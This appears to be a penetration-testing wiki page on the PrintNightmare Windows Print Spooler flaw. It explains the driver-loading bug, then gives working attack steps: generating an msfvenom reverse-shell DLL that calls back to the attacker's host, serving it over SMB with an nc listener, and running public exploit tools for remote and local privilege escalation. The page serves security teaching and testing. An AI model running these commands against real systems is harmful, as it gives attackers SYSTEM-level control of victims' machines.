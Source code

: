 ```yaml
---
description: CVE-2021-1675 & CVE-2021-34527
---
```


# PrintNightmare

## Theory

### The print spooler

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.

3 RPC protocols are registered by the spooler:

* **MS-RPRN:** Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
* **MS-PAR:** Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
* **MS-PAN:** Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

### PrintNightmare

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.&#x20;

In a detailed blogpost ([here](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)), Cyberwatch describes that the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER\_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` in order to bypass the `SeLoadDriverPrivilege` privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context.&#x20;

### Constraints

As [@StanHacked](https://twitter.com/StanHacked/) stated on Twitter, there are some constraints depending on the protocol used for the attack.

#### MS-RPRN conditional tree

<figure><img src="../../../.gitbook/assets/PrintNightmare_MS-RPRN.jpeg" alt=""><figcaption><p><a href="https://twitter.com/StanHacked/status/1410929974358515719">https://twitter.com/StanHacked/status/1410929974358515719</a></p></figcaption></figure>

#### MS-PAR conditional tree

<figure><img src="../../../.gitbook/assets/PrintNightmare_MS-PAR.jpeg" alt=""><figcaption><p><a href="https://twitter.com/StanHacked/status/1412060814488608773">https://twitter.com/StanHacked/status/1412060814488608773</a></p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From Unix-like systems, the attack can be conducted as follows

1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
2. Generate a DLL payload: [msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)
3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
4. Exploit PrintNightmare: CVE-2021-1675.py ([MS-RPRN abuse](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare), [MS-PAR abuse](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py))
5. Profit from the DLL being executed by the target

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Check open pipes
<strong>rpcdump.py @192.168.1.16 | egrep 'MS-RPRN|MS-PAR'
</strong><strong>
</strong><strong># Create a DLL payload (reverse shell in this example)
</strong>msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT

# Run the exploit
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'
</code></pre>
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the attack can be conducted in an LPE or RCE context with the following PoC: [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare).

{% hint style="warning" %}
_At the time of writing, October 7th 2022, the Windows abuse technique has not been tested by THR's authors._
{% endhint %}

{% code overflow="wrap" %}
```bash
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP' $DOMAIN $USER $PASSWORD
```
{% endcode %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/" %}

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}
